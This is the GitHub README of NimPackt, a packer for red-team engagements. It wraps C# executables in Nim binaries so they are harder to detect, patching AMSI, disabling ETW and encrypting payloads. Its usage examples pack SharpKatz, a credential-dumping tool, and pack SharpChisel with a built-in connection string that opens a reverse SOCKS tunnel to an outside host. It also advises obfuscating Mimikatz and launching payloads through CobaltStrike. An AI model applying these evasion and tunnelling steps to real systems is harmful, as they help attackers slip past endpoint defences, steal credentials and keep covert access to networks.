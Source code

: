 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. You should replace strings for, as well as obfuscate, sensitive binaries (like Mimikatz) to avoid fingerprinting.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages. Then you're good to go!

```
sudo apt install -y python3 mingw-w64 nim
nimble install winim strenc nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility, then install the required packages as follows.

```
nimble install winim strenc nimcrypto
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a [ARGUMENTS]] [-e EXECUTIONMODE] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable to wrap

optional arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" (default), "shinject" (TODO), "shinject-remote" (TODO)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime
python3 ./NimPackt.py -v -i ./SharpBins/SharpKatz-x64.exe

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i /tmp/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed bytes (the executed assembly). This probably relates to C# compiling options, need to investigate this further.

## Wishlist

- Support shellcode wrapping using separate Nim templates
- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library
- A CobaltStrike plugin 🤗